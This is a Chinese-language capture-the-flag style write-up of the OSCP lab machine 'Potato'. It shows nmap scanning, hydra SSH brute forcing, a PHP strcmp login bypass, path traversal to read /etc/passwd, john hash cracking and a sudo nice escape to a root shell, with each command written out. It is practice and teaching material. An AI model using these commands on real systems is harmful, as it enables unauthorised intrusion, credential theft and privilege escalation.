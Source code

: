 # 原创
：  从WEB到内网&&代码审计&&strcmp绕过&&sudo提权 ----- 打靶经验分享

# 从WEB到内网&amp;&amp;代码审计&amp;&amp;strcmp绕过&amp;&amp;sudo提权 ----- 打靶经验分享

## OSCP靶机-------Potato

今天来打一个OSCP的靶机，难度中等偏高，包含了端口探测，服务探测，ssh爆破，ftp匿名登录，前端代码审计，strcmp登录绕过，john爆破，sudo提权等等…靶场难度中等偏高，需要收集两个flag，一个flag低权限shell就可以获取，第二个要提权后才可以获取。希望大家看完可以有所收获。

### 启动环境

启动VPN：openvpn universal.ovpn<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/47fb1acaca8d79e759333ce086379efd.jpeg"/><br/> 攻击机IP为：192.168.45.173<br/> 启动靶机：<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/47fa7876c143248014189ba2a007b528.jpeg"/><br/> 靶机IP为：192.168.215.101

### 信息收集

#### 1.端口

nmap扫描端口<br/> `nmap --min-rate 10000 -p- 192.168.215.101`<br/> 可以看到靶机开放三个端口;<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/52b6aa19f36f56b6c985ade19b60f23d.jpeg"/><br/> 22 ssh<br/> 80 http<br/> 2112 kip<br/> 端口服务探测：<br/> `nmap -p 22,80,2112 -sV 192.168.215.101`<br/> 探测到各端口对应服务为：<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/cae0329ce316c91cb53f233334e60dc8.jpeg"/>

> 
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.1<br/> 80/tcp open http Apache httpd 2.4.41 ((Ubuntu))<br/> 2112/tcp open ftp ProFTPD


#### 2.端口测试

**2.1**22-SSH端口<br/> 发现开启的22是ssh端口，且版本为 OpenSSH 8.2p1 Ubuntu，搜一下有没有对应的脚本：<br/> `searchsploit OpenSSH 8.2`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/291cf397fe38129d953997821d83f245.jpeg"/><br/> 没有就试试手工弱口令：<br/> `ssh root@192.168.215.101 -p 22`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/c2c3b1b0d6bac08d0a45e7f3aa3771eb.jpeg"/><br/> 还是以失败告终，直接上ssh爆破，字典用msf，线程为6：<br/> `hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt -t 6 -vV 192.168.215.101 ssh -s 22`<br/> 等待…<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/26896169c95caf615df1893ea51c71ec.jpeg"/><br/> 肯定是没有的，下一步。<br/> **2.2**80-http<br/> 访问一下80端口：<br/> 192.168.215.101:80<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/ef529259c4d56723ca898d0aeca0e364.jpeg"/><br/> 一个性感的土豆（狗头），啥都没有，不像有CMS的样子，扫一下目录看看。<br/> `dirsearch -u http://192.168.215.101/`

有admin看一下：<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/d0db5ac8b8a12b31a0d145140aed59bd.jpeg"/><br/> 登录框，可以试一下万能密码和弱口令。<br/> `admin' or '1'='1`<br/> 啥口令都登不上去<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/012c550b148982b600e01dafd45bee7f.jpeg"/><br/> 看一下/admin/logs/，有一个目录。<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/57c5c3929fce70321c5c7de0b8650adc.jpeg"/><br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/6e570578f659920c3e1b9f6de4184930.jpeg"/><br/> 没什么有用的信息，知道了用户是admin。<br/> 还有个/index.php/login/<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/2fa3758ddd700ea16b371011aedcd635.jpeg"/><br/> 土豆加载不出来，也没什么东西。<br/> **2.3**2112 ftp<br/> 2112端口是ftp服务，而且版本是 ProFTPD。先手工登录一下：<br/> `ftp 192.168.215.101 -p 2112`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/da3a6437950eaf02d79b076dc7a9a3a6.jpeg"/><br/> 用匿名用户anonymous登一下<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/bad79f90b3cdd2f5d3e5f51ee0fdf869.jpeg"/><br/> 允许匿名用户登录。收集一下有什么信息：<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/3fa71911f92b86b799d0e343efe5135a.jpeg"/>

```
binary  #二进制传输确保完整性
ls   #列出当前目录
get index.php.bak
get welcome.msg   #下载这两个文件

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/e74ab352da80054e1389fd919a1fc863.jpeg"/><br/> 看一下下载到的两个文件：<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/da4206a0ee6a52d7c36740374a066eea.jpeg"/><br/> 啥也没有。<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/77cdfce12b6cc89c24a817977f3e72f0.jpeg"/><br/> 是一个登录页面的html代码。

### 攻击阶段

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/dd759fcb4cb8b255d0f544a5cd595040.jpeg"/><br/> 这里看到post传参的值是admin，和前面80端口收集到用户名一样。还有这里是一个strcmp函数，这个函数在进行对比，如果相同返回0不相同返回非0。它是一个PHP弱类型，这个函数比较的是字符串类型，如果强行传入其他参数就会出错，出错后返回0，返回0就可以绕过直接登录了。<br/> 理论成型，直接开干。<br/> burp先抓个登录包。<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/71d79142cec1168f9861cb0e75d53305.jpeg"/><br/> 既然strcmp比较的是字符串类型，那就把密码变成数组且等于1传过去，这样应该就会出错。<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/52ab98771fa780286c8117ccf8e92928.jpeg"/><br/> 发包<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/91b8cb526892116d60c8368b1d925c4b.jpeg"/><br/> 成功登录，开心。<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/9a4ca9b09c89ce410057257813249f93.jpeg"/><br/> 看到PING，还以为能有命令执行，结果不是。好像只有log能够跳转新站点。<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/ec0c2700ad24932e24647c8801fe5901.jpeg"/><br/> get the log是一个文件读取的功能，抓包看看能不能用目录穿越读取别的东西。<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/a68de168f23c5009f823cdda0e3cac85.jpeg"/><br/> 这个POST传参是可以修改的，试一下目录穿越直接读取passwd。<br/> `../../../../../etc/passwd`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/3c8d4aea3644bd53188620d7eff339d9.jpeg"/><br/> 发包，成功读取到了psswd<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/b776612b9e803eae6bf908e9d87ae823.jpeg"/><br/> 读到了webadmin用户的加密密码，尝试一下爆破解密。将密码存到文件中:<br/> `echo '$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/' → passwd.hash`<br/> 利用john爆破<br/> `john passwd.hash`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/d0fc3aed8c79a18c3354ad6bdede1b72.jpeg"/><br/> 爆破出密码为dragon，直接ssh登录：<br/> `ssh webadmin@192.168.215.101 -p 22`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/732869f2895c3fb141fba7d85684fbe6.jpeg"/><br/> 成功拿到shell

### 内网渗透

获取flag1：<br/> `find / -name local.txt`<br/> `cat /home/webadmin/local.txt`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/a026dc1fb51f6e5aecfb6f81584617a8.jpeg"/>

#### 提权

1.内核overlayfs提权<br/> `lsb_release -a`看看发行版本<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/c75aab6aa3f8c1a60165aff0e96962ba.jpeg"/><br/> 20.04 不行<br/> 2.低内核版本提权<br/> `uname -a`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/0581566deae25f1411ee46e12ee4094c.jpeg"/><br/> 5.4.0-42 不行<br/> 3.Cron job提权<br/> `cat /etc/crontab`<br/> 查找定时任务。没有<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/d8423dcc72ee10bc61107a2c745b2cec.jpeg"/>

4.sudo提权<br/> `sudo -l`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/4064929a500cfaf52e0e9fe1a3ba7d18.jpeg"/><br/> 有东西：

> 
(ALL : ALL) /bin/nice /notes/*<br/> 去https://gtfobins.github.io找提权方式：<br/> 搜索nice<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/40e95051f4da465577414477d8aba7a4.jpeg"/><br/> 在/notes/文件下任意内容都可以sudo执行nice<br/> 去一个可执行目录：


```
cd /tmp
echo '/bin/sh -p' &gt; shell   #写入shell
cat shell     #查看shell
chmod +x shell    #给shell加权限

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/c4852935e0da10be28c06c4cd338e20c.jpeg"/><br/> 利用目录穿越绕过sudo的限制<br/> `sudo /bin/nice /notes/../../tmp/shell`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/7473b6ecc32304b80559f419b788225e.jpeg"/><br/> 成功提权。<br/> 获取flag2：<br/> `cat /root/proof.txt`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/c42856cff56e065b45d839df868fc9d0.jpeg"/><br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/0641ff350bb43c271e021d7cb6035a5f.jpeg"/><br/> 完结。
